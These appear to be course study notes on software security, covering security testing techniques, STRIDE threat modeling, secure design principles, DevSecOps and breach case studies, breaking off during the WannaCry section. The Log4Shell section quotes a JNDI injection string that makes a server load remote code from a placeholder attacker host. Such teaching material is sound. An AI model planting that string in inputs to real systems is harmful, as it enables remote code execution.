



# Study Notes: Software Security Analysis (L10)

## Purpose
These study notes cover software security analysis: the dependability framework and CIA triad, vulnerability finding techniques (SAST, DAST, fuzzing, penetration testing), threat modeling (STRIDE and alternatives), secure design principles (Saltzer & Schroeder), DevSecOps pipeline integration, and supply chain security — illustrated with six major case studies.

**Primary Sources:**
- McGraw 2006, Software Security: Building Security In 
- Howard & LeBlanc 2006, Writing Secure Code 
- Saltzer & Schroeder 1975, The Protection of Information in Computer Systems 

**Key Research Papers:**
- Avizienis et al. 2004, Basic Concepts and Taxonomy of Dependable and Secure Computing 
- Felderer et al. 2016, Security Testing: A Survey 
- Chess & West 2007, Secure Programming with Static Analysis 
- Shostack 2014, Threat Modeling: Designing for Security 
- Rajapakse et al. 2021, Challenges and Solutions for Integrating Security in DevOps 

---

## Table of Contents

1. [Part 1: Security Fundamentals](#part-1-security-fundamentals)
2. [Part 2: Finding Vulnerabilities](#part-2-finding-vulnerabilities)
3. [Part 3: Threat Modeling](#part-3-threat-modeling)
4. [Part 4: Secure Design Principles](#part-4-secure-design-principles)
5. [Part 5: DevSecOps & Supply Chain](#part-5-devsecops--supply-chain)
6. [Part 6: Case Studies](#part-6-case-studies)

---

## Part 1: Security Fundamentals

### 1.1 Security as a Quality Attribute

Security is not a standalone property — it is a **composite quality attribute** within the broader dependability framework . The classical **CIA triad** defines its three core dimensions:

| Property | Definition | Threat (STRIDE) |
|----------|-----------|-----------------|
| **Confidentiality** | Information not disclosed to unauthorized parties | Information Disclosure |
| **Integrity** | Data not altered by unauthorized means | Tampering |
| **Availability** | System accessible when needed | Denial of Service |

Avizienis et al. position security as part of the dependability tree alongside reliability, safety, and maintainability. Unlike reliability (which addresses accidental faults), security specifically addresses **intentional, malicious faults** — making the adversarial dimension its distinguishing characteristic.

> "Security is an emergent property of a system, not a feature — it cannot be bolted on after the fact." — McGraw 2006 

### 1.2 The CIA Triad

The CIA triad provides the foundational vocabulary for security analysis:

- **Confidentiality:** Preventing unauthorized information disclosure. Heartbleed (CVE-2014-0160) violated confidentiality by leaking 64KB of server memory per request .
- **Integrity:** Ensuring data is not modified without authorization. SolarWinds (2020) violated integrity by injecting malicious code into the build process .
- **Availability:** Ensuring systems remain operational. WannaCry (2017) violated availability by encrypting systems across 150 countries .

Additional security properties extend the triad: **authentication** (verifying identity), **non-repudiation** (actions cannot be denied), and **authorization** (access control). STRIDE maps these six properties systematically to threat categories.

### 1.3 Fault-Error-Failure Chain in Security

The dependability taxonomy  provides a causal model that applies directly to security:



| Dependability Term | Security Interpretation | Example |
|--------------------|------------------------|---------|
| **Fault** | Vulnerability in code or design | Missing bounds check (Heartbleed) |
| **Error** | Exploited internal state | Memory contents leaked to attacker |
| **Failure** | Observable security violation | Private keys, passwords exposed |
| **Malicious external fault** | Attack | Crafted TLS heartbeat request |

The key insight: in security, the fault (vulnerability) may exist for years without causing an error. The **activation** of the fault requires a deliberate, malicious external action — the attack. This distinguishes security faults from accidental faults in reliability.

**Four means of dealing with faults** (Avizienis 2004):

| Means | Description | Security Example |
|-------|-------------|------------------|
| **Fault prevention** | Avoid introducing faults | Secure coding standards, CERT rules |
| **Fault tolerance** | Continue operating despite faults | Input validation, sandboxing |
| **Fault removal** | Find and eliminate faults | SAST, DAST, code review, pen testing |
| **Fault forecasting** | Predict future faults | Threat modeling, risk assessment |

### 1.4 Finding vs Preventing: McGraw's 50/50 Split

McGraw identifies two fundamentally different categories of security problems :

| Category | Prevalence | Found By | Example |
|----------|-----------|----------|---------|
| **Implementation bugs** | ~50% | Code-level tools (SAST, fuzzing) | Buffer overflow, SQL injection |
| **Design flaws** | ~50% | Architecture analysis (threat modeling) | Missing trust boundary, insecure protocol |

This split has a critical practical consequence: **no amount of code scanning will find design flaws**, and no amount of architecture review will catch implementation bugs. Effective security requires both reactive (find & fix) and proactive (prevent) strategies working together.

**Reactive (Find & Fix):**
- Fuzzing, penetration testing
- SAST, DAST, IAST
- Code review (though <1% of review comments address security )
- Costly: average breach = $4.88M 

**Proactive (Prevent):**
- Security requirements engineering (SQUARE )
- Threat modeling (STRIDE )
- Secure design principles (Saltzer & Schroeder )
- DevSecOps pipeline integration 

### 1.5 The Cost of Insecurity

Security failures carry enormous financial and operational costs :

| Metric | Value | Source |
|--------|-------|--------|
| Average data breach cost | **$4.88M** (10% YoY increase) | IBM 2024 |
| Average time to identify breach | **194 days** | IBM 2024 |
| Healthcare sector (highest) | **$9.77M** (14th year running) | IBM 2024 |
| Incidents exploiting known vulns | **90%** | Felderer 2016 |
| Avg days to close discovered vuln | **67 days** | Edgescan 2018 |
| Organizations not scanning for vulns | **37%** | Ponemon 2018 |

The most striking finding: **90% of security incidents exploit known vulnerabilities** . The problem is not the absence of knowledge — it is the failure to act on knowledge that already exists. Equifax's $1.4B breach exploited a vulnerability for which a patch had been available for two months.

**Howard's SD3 framework** provides a systematic approach to reducing the attack surface :
- **Secure by Design** — Threat model, secure architecture, least privilege
- **Secure by Default** — Minimize default attack surface, disable unnecessary features
- **Secure in Deployment** — Patching, monitoring, incident response

### Practice Questions

1. Using Avizienis's fault-error-failure chain, trace the Heartbleed vulnerability from fault to failure. At which point in the chain could each of the four means (prevention, tolerance, removal, forecasting) have intervened?
2. Why does McGraw's 50/50 split imply that SAST tools alone cannot solve the security problem?
3. If 90% of breaches exploit known vulnerabilities, what does this tell us about the relative importance of finding new vulnerabilities vs. managing known ones?

---

## Part 2: Finding Vulnerabilities

### 2.1 Five Techniques Overview

No single testing technique effectively covers all security testing . Each technique operates at a different SDLC phase and finds different vulnerability types:

| Technique | Approach | Best For | SDLC Phase | Key Limitation |
|-----------|----------|----------|------------|----------------|
| **Fuzzing** | Random/smart malformed input | Crash bugs, memory issues | Testing | Cannot prove absence of bugs |
| **Penetration Testing** | Simulated attacks (Red Team) | Realistic threat assessment | Deployment | Point-in-time snapshot |
| **Code Review** | Manual inspection | Logic errors, race conditions | Development | Does not scale (<1% security) |
| **SAST** | Automated source code analysis | Known vulnerability patterns | Build | ~70% false positive rate |
| **DAST** | Automated runtime scanning | Injection, misconfig, XSS | Test/Deploy | Black-box only, misses logic |

### 2.2 Static Application Security Testing (SAST)

SAST analyzes source code without executing it. Chess & West describe a spectrum of analysis techniques, ordered by increasing precision and cost :

| Technique | What It Checks | False Positive Rate | Cost |
|-----------|---------------|---------------------|------|
| **Lexical analysis** | Pattern matching on tokens | Very high | Very low |
| **AST matching** | Syntax tree patterns | High | Low |
| **Data flow analysis** | How data moves through code | Moderate | Medium |
| **Control flow analysis** | Execution path feasibility | Moderate | Medium |
| **Abstract interpretation** | Sound approximation of semantics | Lower | High |
| **Model checking** | Exhaustive state exploration | Lowest | Very high |

**Why false positives are inherent:** Rice's Theorem proves that any nontrivial semantic property of a general program is undecidable. Security tools deliberately choose to **over-report** (false positives) rather than **under-report** (missed vulnerabilities). The practical result: approximately **70% of SAST results are false positives** .

> "Static analysis is like a spell checker for security bugs." — Chess 2007 

**Practical impact of false positives:**
- Alert fatigue: developers stop trusting tools
- Triage cost: each false positive consumes review time
- Industry challenge: only **30%** of scan results are actionable 

### 2.3 Dynamic Application Security Testing (DAST)

DAST tests the running application from the outside, sending HTTP requests and analyzing responses:

| Mode | Description | Strengths | Weaknesses |
|------|-------------|-----------|------------|
| **Passive** | Observe traffic, analyze responses | Non-disruptive, finds information leaks | Misses vulnerabilities requiring active probing |
| **Active** | Send malicious payloads | Finds injection, XSS, misconfig | Can be disruptive, slower |

**CI/CD integration metrics** (Rangnau 2020 ):
- Full pipeline time: **14 min 6 sec**
- ZAP container build: **6 min 52 sec** (pipeline bottleneck)
- WAST vulnerabilities found: 15 (including 1 High SQLi)

### 2.4 Interactive Application Security Testing (IAST)

IAST combines SAST and DAST by instrumenting the application at runtime with an in-app agent:



| Feature | SAST | DAST | IAST |
|---------|------|------|------|
| When | Build time | Runtime | Runtime |
| Input | Source code | HTTP requests | In-app agent |
| Speed | Hours | Minutes | Real-time |
| False positives | ~70% | Lower | **Lowest** |
| Strengths | Full code coverage | Finds runtime issues | Combines both |
| Weakness | No runtime context | Black-box only | Needs instrumentation |

### 2.5 Fuzzing

Fuzzing generates malformed or semi-random input to discover crashes and unexpected behavior. It was pioneered by Miller et al. (1990) who found that **25–33% of UNIX utilities crashed** on random input.

**Fuzzing taxonomy:**

| Dimension | Type A | Type B |
|-----------|--------|--------|
| **Intelligence** | Dumb (random) | Smart (structure-aware) |
| **Data source** | Generation (from grammar/spec) | Mutation (modify valid inputs) |
| **Code visibility** | Blackbox (no code) | Greybox / Whitebox |

**Key metric:** 1% code coverage increase ≈ 1% more bugs found.

**Takanen's fuzzing lifecycle** (6 phases) :

1. **Identify targets** — trust boundaries: file parsers, network protocols, IPC
2. **Identify inputs** — all data entry points
3. **Generate fuzzed data** — mutation or generation strategies
4. **Execute and monitor** — crash detection, sanitizers, coverage tracking
5. **Determine exploitability** — not all crashes are security-relevant
6. **Report and triage** — prioritize by severity

**Limitation:** The input space is effectively infinite. Fuzzing can discover vulnerabilities but can **never prove their absence**. It is a probabilistic technique — more time yields more coverage, but 100% coverage is unachievable.

### 2.6 Penetration Testing

Penetration testing simulates real-world attacks to assess security posture. It follows a structured process  :

**NIST 4-Stage Process:**

| Stage | Activities | Key Outputs |
|-------|-----------|-------------|
| 1. **Planning** | Rules of engagement, authorization, scope | Engagement agreement |
| 2. **Discovery** | Reconnaissance + vulnerability analysis | Target map, vuln list |
| 3. **Attack** | Exploitation of discovered vulnerabilities | Proof of compromise |
| 4. **Reporting** | Findings, risk ratings, remediation | Final report |

**Weidman's 7-Phase Model** extends this with more granularity : pre-engagement → intelligence gathering → threat modeling → vulnerability analysis → exploitation → post-exploitation → reporting.

**Team Structure:**

| Team | Role | Knowledge Level |
|------|------|----------------|
| **Red** | Offense (pen testers) | Full attack knowledge |
| **Blue** | Defense (operations) | Partial — reacts to attacks |
| **White** | Referees (manage exercise) | Full — sets rules of engagement |

> "Some say pentests truly begin only after exploitation" — post-exploitation determines actual business impact (Weidman 2014) 

### 2.7 Code Review for Security

Yu et al. (2023) conducted a large-scale empirical study of security defect detection via code review :

**Study scope:** 432K code review comments across OpenStack and Qt, 2017–2022.

| Metric | Value |
|--------|-------|
| Security-related comments | **<1%** of all review comments |
| Top defect: Race conditions | **39%** |
| Top defect: Crashes | 22.8% |
| Top defect: Resource leaks | 10.9% |
| Overall resolution rate | **65.9%** |
| With reviewer suggestion | **81.3%** resolution |

**Key findings:**
- Manual code review finds **complex, context-dependent** security defects that automated tools miss (race conditions, logic errors)
- When reviewers **suggest a fix**, the resolution rate jumps from 66% to 81%
- The recommended approach is **hybrid**: automated tools for scale, human review for context

### Practice Questions

1. A SAST tool reports 100 findings. Based on industry data, approximately how many are likely to be true positives? Why does Rice's Theorem guarantee this problem cannot be fully solved?
2. Compare the strengths of SAST and DAST. Why is IAST considered an improvement over both?
3. Why does the Yu et al. finding that <1% of code review comments address security suggest that manual review alone is insufficient?
4. A development team has a 10-minute CI/CD pipeline budget. Given that ZAP takes ~7 minutes, what trade-offs must they consider when integrating DAST?

---

## Part 3: Threat Modeling

### 3.1 Shostack's 4-Question Framework

Threat modeling is a structured approach to identifying and mitigating security threats before they are exploited. Shostack frames it around four questions :

| Question | Method | Output |
|----------|--------|--------|
| 1. **What are you building?** | Data Flow Diagrams (DFDs) | Architecture model |
| 2. **What can go wrong?** | STRIDE per element | Threat list |
| 3. **What will you do about it?** | Risk response | Mitigation plan |
| 4. **Did you do a decent job?** | Validation | Confidence level |

**DFD Symbols:**

| Symbol | Meaning | STRIDE Applicability |
|--------|---------|---------------------|
| → (Arrow) | Data flow | Tampering, Information Disclosure, DoS |
| ‖ (Double bar) | Data store | Tampering, Information Disclosure, Repudiation, DoS |
| ○ (Circle) | Process | All six STRIDE categories |
| ⋯ (Dashed line) | Trust boundary | Threats at boundary crossings |
| □ (Rectangle) | External interactor | Spoofing, Repudiation |

> "Threat modeling is the key to a focused defense. Without it, you can never stop playing whack-a-mole." — Shostack 2014 

### 3.2 Microsoft's 6-Step Process

Microsoft operationalizes threat modeling into six steps:

1. **Identify assets** and security objectives
2. **Create architecture overview** using DFDs
3. **Decompose application** — identify trust boundaries, entry points, exit points
4. **Identify threats** using STRIDE, OWASP, or attack libraries
5. **Document threats** using a common template (threat, target, attack, countermeasure)
6. **Rate threats** using CVSS  or DREAD

### 3.3 STRIDE: Six Categories, Six Security Properties

| Threat | Security Property | Example | Typical Target |
|--------|-------------------|---------|----------------|
| **S**poofing | Authentication | Fake login page | External interactor |
| **T**ampering | Integrity | Modified database records | Data flow, data store |
| **R**epudiation | Non-repudiation | Denying a transaction | Process, data store |
| **I**nformation Disclosure | Confidentiality | Data leak (Heartbleed) | Data flow, data store |
| **D**enial of Service | Availability | Server flood (WannaCry) | Process, data flow |
| **E**levation of Privilege | Authorization | User → admin | Process |

STRIDE is applied **per DFD element**: each element is checked against the applicable threat categories. However, Shostack himself warns that STRIDE **"makes a lousy taxonomy"** — it was designed as a **mnemonic** to help practitioners remember threat categories, not as a rigorous classification system .

### 3.4 Empirical Effectiveness of Threat Modeling

**Scandariato 2015 Study** (57 students, 3 years of data) :

| Metric | Value | Interpretation |
|--------|-------|----------------|
| Precision | **81%** | Threats identified are valid |
| Recall | **36%** | **64% of threats are missed** |
| Productivity | 1.8 valid threats/hour | Without documentation overhead |
| With documentation | 0.9 threats/hour | Documentation halves productivity |

Howard estimates threat modeling finds approximately **50% of design flaws** — making it complementary to code review and testing, not a replacement.

**Maturity assessment** (Yskout 2020) :

| Finding | Value |
|---------|-------|
| Current industry maturity | **Level 1** (ad-hoc) |
| Average effort per project | **69 hours** (SD=32) |
| Stakeholders per project | ~10 |
| Elicitation proportion | Only 1/3 of total effort |

**Six adoption criteria** for mature threat modeling: model-based, traceable, systematic, business-integrated, context-aware, and scalable.

### 3.5 Alternative Threat Modeling Methods

Shevchenko et al. (2018) survey 12 threat modeling methods and conclude that **no single method is recommended over another** — selection depends on project context :

| Method | Focus | Best For |
|--------|-------|----------|
| **STRIDE** | Per-element threats | Technical system analysis |
| **PASTA** | Risk-centric (7 stages) | Business-technical alignment |
| **LINDDUN** | Privacy threats | GDPR/privacy-focused systems |
| **Attack Trees** | Attacker goals | Complex multi-step attacks |
| **VAST** | Agile/enterprise scale | Large organizations |
| **OCTAVE** | Organizational risk | Strategic planning |

### 3.6 OWASP Top 10 (2021)

The OWASP Top 10 represents the most critical web application security risks :

| # | Risk | Description | Case Study |
|---|------|-------------|------------|
| 1 | **Broken Access Control** | IDOR, privilege escalation | Target 2013 |
| 2 | **Cryptographic Failures** | Weak encryption, plaintext storage | |
| 3 | **Injection** | SQL, NoSQL, OS command, LDAP | |
| 4 | **Insecure Design** | Missing threat modeling | Equifax 2017 |
| 5 | **Security Misconfiguration** | Default credentials, unnecessary features | S3 bucket leaks |
| 6 | **Vulnerable Components** | Outdated libraries with known CVEs | Log4Shell 2021 |
| 7 | **Auth & Session Failures** | Weak passwords, session fixation | |
| 8 | **Integrity Failures** | Unsigned updates, CI/CD compromise | SolarWinds 2020 |
| 9 | **Logging Failures** | No audit trail, insufficient monitoring | |
| 10 | **SSRF** | Server-side request forgery | |

### 3.7 CVSS: Quantifying Risk on a 0-10 Scale

The Common Vulnerability Scoring System (CVSS) provides a standardized way to assess vulnerability severity  :

**Three metric groups:**

| Group | Measures | Set By | Changes Over Time? |
|-------|----------|--------|-------------------|
| **Base** (0-10) | Exploitability + Impact | Analyst | No |
| **Temporal** | Exploit maturity, patch availability | Vendor | Yes |
| **Environmental** | Target distribution, CIA requirements | User organization | Per deployment |

**Severity scale:**

| Rating | Score Range | Example |
|--------|------------|---------|
| None | 0.0 | Informational finding |
| Low | 0.1 – 3.9 | Minor information disclosure |
| Medium | 4.0 – 6.9 | Cross-site scripting |
| High | 7.0 – 8.9 | Heartbleed (CVSS 7.5) |
| **Critical** | **9.0 – 10.0** | **Log4Shell (CVSS 10.0)** |

**Example: Log4Shell (CVE-2021-44228)** :

| Base Metric | Value | Rationale |
|-------------|-------|-----------|
| Attack Vector | Network | Exploitable remotely |
| Attack Complexity | Low | No special conditions needed |
| Privileges Required | None | No authentication required |
| User Interaction | None | No user action needed |
| Scope | Changed | Impacts beyond vulnerable component |
| Confidentiality Impact | High | Full read access |
| Integrity Impact | High | Full write access |
| Availability Impact | High | Complete denial of service |
| **Base Score** | **10.0 (Critical)** | Maximum severity |

### Practice Questions

1. Apply STRIDE to a simple web application with a login page, a database, and a REST API. How many threats can you identify per DFD element?
2. Scandariato's study found 81% precision but only 36% recall. What are the practical implications of missing 64% of threats?
3. Why does Shostack say STRIDE "makes a lousy taxonomy"? What is its intended purpose instead?
4. Calculate the CVSS base score implications: if Log4Shell had required authentication (Privileges Required: High), how would the severity change?

---

## Part 4: Secure Design Principles

### 4.1 Saltzer & Schroeder's Eight Principles

In 1975, Saltzer and Schroeder articulated eight design principles for building secure systems . Fifty years later, these principles remain the foundation of secure software design:

| # | Principle | Meaning | Modern Example |
|---|-----------|---------|----------------|
| 1 | **Economy of mechanism** | Keep the design simple and small | Microservices with small attack surface |
| 2 | **Fail-safe defaults** | Deny access by default | Firewall default-deny rules |
| 3 | **Complete mediation** | Check every access to every object | API gateway authentication |
| 4 | **Open design** | Security should not depend on secrecy | Open-source cryptography (AES, TLS) |
| 5 | **Separation of privilege** | Require multiple conditions for access | Two-factor authentication, multi-party approval |
| 6 | **Least privilege** | Grant minimum necessary access | Container sandboxing, zero-trust |
| 7 | **Least common mechanism** | Minimize shared resources | Process isolation, microservice boundaries |
| 8 | **Psychological acceptability** | Security should be easy to use correctly | Single sign-on, biometric authentication |

**Evolution arc:** 1975 (Saltzer & Schroeder — principles articulated as warnings) → 2004 (Avizienis — dependability taxonomy) → 2006 (Howard — SD3 / McGraw — Touchpoints) → Microsoft SDL → 2024 (RQCODE — executable security requirements )

### 4.2 Least Privilege in Practice

The principle of least privilege states that every process should operate with the minimum set of privileges necessary to complete its task :

**Browser sandbox (Chrome):**
- Content renderers execute with very low privileges
- No file system write access
- Huge attack surface (untrusted web content) — sandboxing **contains the blast radius**

**Container isolation (Docker):**
- Read-only filesystem, non-root user
- Dropped Linux capabilities
- Even if compromised, lateral movement is limited

**Zero-trust architecture:**
- Never trust, always verify — even inside the network perimeter
- Microsegmentation prevents lateral movement
- Every request is authenticated and authorized regardless of origin

**Case study connection:** The Target breach (2013) occurred because an HVAC vendor had **full network access** — violating least privilege enabled lateral movement from the vendor's credentials to POS systems, compromising 40M credit cards .

### 4.3 Input Validation

Howard's foundational rule for secure coding :

> "All input is evil until proven otherwise. The moment you forget this rule is the moment you are attacked."

**Validation approach:**

1. **Identify** all input sources (user input, files, network, environment, databases)
2. **Specify** what constitutes valid data (format, range, length, type)
3. **Validate** using an **input chokepoint** — a single centralized validation point
4. **Handle** invalid data safely (reject, sanitize, or escape)

**Whitelist vs. Blacklist:**

| Approach | Method | Risk | Recommendation |
|----------|--------|------|----------------|
| **Blacklist** | Block known bad patterns | Misses new attack variants | **Avoid** |
| **Whitelist** | Allow only known good patterns | May be more restrictive | **Prefer** |

**Example:** Blacklisting `--` for SQL injection → attacker uses `/**/` comment syntax to bypass. **Whitelisting** `[A-Za-z0-9]` for usernames → any unexpected character is rejected regardless of attack technique.

### 4.4 Secure Coding Practices

**Dangerous C/C++ patterns:**

| Function | Risk | Safe Alternative |
|----------|------|-----------------|
| `gets()` | Buffer overflow (unbounded read) | `fgets()` |
| `strcpy()` | Buffer overflow (no length check) | `strcpy_s()` / `strncpy()` |
| `sprintf()` | Format string attack | `snprintf()` |
| Hard-coded passwords | Credential exposure in source | Environment variables, vaults |

**Modern language safety features:**

| Language | Memory Safety | Concurrency Safety | Security Implication |
|----------|--------------|-------------------|---------------------|
| C/C++ | Manual | Manual | Most vulnerability-prone |
| Java | Managed (GC) | Shared memory model | Eliminates memory corruption |
| Rust | Ownership system | Borrow checker | Compile-time safety guarantees |
| Go | Managed (GC) | Goroutines + channels | Safe concurrency by default |

> "Security ≠ security software — adding SSL doesn't solve the problem; security must be designed in." — McGraw 2006 

### Practice Questions

1. For each of the six case studies in this lecture, identify which Saltzer & Schroeder principle was primarily violated.
2. Why is whitelisting preferred over blacklisting for input validation? Give a concrete example where blacklisting fails.
3. How does Rust's ownership model prevent the class of vulnerability that caused Heartbleed?
4. Explain McGraw's distinction between "security software" and "software security." Why does adding encryption not make software secure?

---

## Part 5: DevSecOps & Supply Chain

### 5.1 SDLC Security Map

Security activities must be integrated into **every phase** of the software development lifecycle — gaps in any phase create exploitable weaknesses  :

| SDLC Phase | Security Activity | Key Method | Case if Skipped |
|------------|-------------------|------------|-----------------|
| **Requirements** | Security requirements | SQUARE, ARQAN | Missing threat model |
| **Design** | Threat modeling | STRIDE (81% precision) | SolarWinds (no build integrity) |
| **Implementation** | Secure coding + SAST | CERT standards, SCA | Heartbleed (bounds check) |
| **Testing** | DAST + pen testing | ZAP, Red Team | Equifax (unpatched vuln) |
| **Deployment** | DevSecOps pipeline | IAST, RASP | Log4Shell (unscanned deps) |
| **Operations** | Monitoring + patching | SIEM, SCA alerts | WannaCry (2-month patch gap) |



### 5.2 DevSecOps Pipeline Metrics

Rangnau et al. (2020) measured the practical overhead of security integration in CI/CD pipelines :

| Metric | Value |
|--------|-------|
| Full pipeline time | **14 min 6 sec** |
| ZAP container build | **6 min 52 sec** (49% of pipeline — bottleneck) |
| WAST vulnerabilities found | 15 (including 1 High: SQL injection) |
| SAS vulnerabilities found | 4 |
| BDST findings | 60 (mostly Low severity) |
| Effective results | **~30%** (rest are false positives) |

**Pipeline configuration:** Configured to **fail and block** deployment when vulnerability thresholds are exceeded. This enforces a security gate but requires careful threshold tuning to avoid blocking legitimate releases.

**Industry challenges** :

| Challenge | Detail |
|-----------|--------|
| False positives | Only 30% of results are actionable |
| Speed mismatch | SAST takes hours; DevOps cycles are minutes |
| Tool age | Many tools built on 15-year-old scan models |
| Alert fatigue | Teams stop trusting and start ignoring tools |

### 5.3 Next-Generation Security Tools

| Tool | Mechanism | Key Advantage |
|------|-----------|---------------|
| **IAST** | In-app agent combining SAST+DAST | Highest accuracy, lowest false positives |
| **RASP** | Runtime self-protection agent | Blocks attacks in real-time production |
| **SCA** | Dependency CVE scanning | Catches supply chain vulnerabilities |
| **IDE SAST** | Real-time analysis in the editor | Fastest possible developer feedback |

**Best practices:** Scan every commit, run DAST in parallel (do not block pipeline), prefer full scans over incremental, and combine multiple tool types.

**SCA would have caught both Equifax** (known Apache Struts CVE) **and Log4Shell** (vulnerable Log4j dependency) before deployment .

### 5.4 Security Requirements Engineering

**SQUARE 9-Step Process** (Mead 2005, SEI/CMU) :

1. Agree on definitions
2. Identify assets and security goals
3. Develop artifacts (use cases, misuse cases, DFDs)
4. Perform risk assessment
5. Select elicitation technique (Accelerated Requirements Method)
6. Elicit security requirements
7. Categorize requirements (functional vs. non-functional)
8. Prioritize requirements (Analytical Hierarchy Process)
9. Inspect requirements for completeness and consistency

**RQCODE Framework** (Sadovykh & Ivanov 2024) automates security requirements validation :

- Security requirements encoded as Java objects with `check()` and `enforce()` methods
- **ARQAN:** NLP-based tool maps vague requirements to STIG security guidelines
- **Results:**
  - **85%** requirement mapping accuracy
  - **62%** automation rate for security checks
  - **66%** of STIG controls automated
- **GitHub Actions integration:** Issues → STIG lookup → automated test import

This represents the evolution from SQUARE (2005, manual process) to **automated, executable security requirements** (2024).

### 5.5 Supply Chain Security

Williams et al. (2025) identify three primary attack vectors in software supply chains :

| Attack Vector | Description | Case Study |
|---------------|-------------|------------|
| **Dependencies** | Compromised or vulnerable third-party libraries | Log4Shell (Log4j embedded in thousands of products) |
| **Build process** | Tampering with build systems or CI/CD | SolarWinds (malicious code injected during build) |
| **Human factors** | Social engineering, insider threats, maintainer compromise | XZ Utils (multi-year social engineering of maintainer) |

**Major supply chain incidents:**

| Incident | Year | Vector | Impact |
|----------|------|--------|--------|
| **SolarWinds** | 2020 | Build compromise | 18,000 organizations, 9 months undetected  |
| **Log4Shell** | 2021 | Vulnerable dependency | 93% of enterprise clouds vulnerable  |
| **XZ Utils** | 2024 | Maintainer social engineering | Backdoor in compression library (caught before widespread deployment) |

**Countermeasures:**
- **Software Bill of Materials (SBOM):** Inventory of all dependencies
- **SCA scanning:** Automated CVE checks on every build
- **Build provenance:** Cryptographic attestation of build process (SLSA framework)
- **Dependency pinning:** Lock specific versions, review updates

### Practice Questions

1. A CI/CD pipeline has a 15-minute budget. Using Rangnau's data, design a security scanning strategy that fits this budget. What trade-offs are necessary?
2. Why is SCA particularly important for preventing supply chain attacks? How would it have changed the outcome for Equifax and Log4Shell?
3. Compare the SQUARE process (2005) with RQCODE (2024). What has changed in the approach to security requirements over 19 years?
4. Explain how the SolarWinds attack exploited the build process. Why is traditional SAST insufficient to detect this type of attack?

---

## Part 6: Case Studies

### Consolidated Case Study Table

| Case | CVE / Year | Root Cause | Impact | CVSS | Principle Violated |
|------|-----------|------------|--------|------|-------------------|
| **Heartbleed** | CVE-2014-0160 | Missing bounds check in OpenSSL heartbeat | ~500K servers (~17% HTTPS) | 7.5 | Economy of mechanism |
| **Log4Shell** | CVE-2021-44228 | JNDI lookup in logging library | 93% enterprise clouds | **10.0** | Economy of mechanism |
| **Equifax** | CVE-2017-5638 | Unpatched Apache Struts | 147M records, $1.4B | 10.0 | Complete mediation |
| **SolarWinds** | 2020 | Build process compromise | 18K orgs, 9 months undetected | N/A | Open design |
| **WannaCry** | CVE-2017-0144 | EternalBlue SMB exploit | 200K+ computers, 150 countries | 8.1 | Fail-safe defaults |
| **Target** | 2013 | HVAC vendor lateral movement | 40M cards, $200M+ | N/A | Least privilege |

### 6.1 Heartbleed (CVE-2014-0160)

**Vulnerability:** OpenSSL versions 1.0.0 through 1.0.1f contained a missing bounds check in the TLS heartbeat extension. An attacker could send a crafted heartbeat request claiming a large payload length, causing the server to return up to **64KB of internal memory** per request — including private keys, passwords, and session tokens .

**Root cause:**
```c
// Missing: bounds check
if (payload_length > actual_length)
    return error;  // This check was absent
memcpy(response, data, payload_length);  // Copies beyond buffer
```

**Impact:** Approximately **500,000 servers** affected (~17% of all HTTPS servers). The vulnerability was discovered independently by Google Security and Codenomicon. The fix required only **two lines** of bounds checking code.

**CERT rule violated:** INT04-C — Enforce limits on integers from tainted sources.

**Principle violated:** Economy of mechanism — a simple heartbeat extension should not have access to unrelated memory regions. The complexity of the OpenSSL codebase contributed to this flaw going undetected for over two years.

### 6.2 Log4Shell (CVE-2021-44228)

**Vulnerability:** Apache Log4j versions 2.0-beta9 through 2.14.1 supported JNDI lookups in log messages, allowing an attacker to trigger **remote code execution** by sending a specially crafted string  :

```
${jndi:ldap://attacker.com/exploit}
```

When this string was logged, Log4j would resolve the JNDI reference, download a remote Java class, and execute it — turning a **logging library into a remote code execution vector**.

**Timeline:**
- Feature existed since **2013** (8 years undetected)
- Disclosed December 9, 2021
- **2 million attacks per hour** within days of disclosure
- After 10 days: only **45%** of vulnerable workloads patched

**Impact:** **93% of enterprise cloud environments** were vulnerable. CVSS score: **10.0** (network / low complexity / no authentication / complete CIA impact).

**Principle violated:** Economy of mechanism — a logging library should not have the capability to execute remote code. The JNDI lookup feature was unnecessary complexity that created a critical attack vector.

**Supply chain significance:** Log4j was embedded in thousands of products, making it a supply chain vulnerability that drove industry-wide adoption of SBOMs .

### 6.3 Equifax (CVE-2017-5638)

**Timeline** :
- March 7: Patch released for Apache Struts vulnerability (CVSS 10.0)
- March 8: DHS notifies Equifax
- March 15: Internal scan **fails to detect** the vulnerable system
- May 13 – July 30: Attackers exploit the vulnerability (**78 days undetected**)
- Contributing factor: Expired SSL certificate disabled network monitoring

**Impact:** **147 million** Americans affected (SSNs + credit card data). $1.4 billion settlement. The breach was attributed to four members of China's PLA.

**Principle violated:** Complete mediation — every access must be checked. The internal scan failure meant a known vulnerability went unmediated for months.

### 6.4 SolarWinds (2020)

**Attack vector:** Attackers compromised the SolarWinds Orion build process, injecting malicious code (SUNBURST backdoor) into a routine software update  .

**Impact:**
- **18,000 organizations** installed the compromised update
- **9 months** before detection (March – December 2020)
- Targets included US government agencies (Treasury, Commerce, DHS)

**Principle violated:** Open design — SolarWinds relied on the obscurity of their build process rather than cryptographic attestation. The attack demonstrated that traditional perimeter security and code review are insufficient when the build system itself is compromised.

### 6.5 WannaCry (CVE-2017-0144)

**Vulnerability:** The EternalBlue exploit targeted a vulnerability in Windows SMBv1 protocol. Originally developed by the NSA and leaked by the Shadow Brokers group .

**Impact:**
- **200,000+ computers** across **150 countries** at a rate of **10,000 devices/hour**
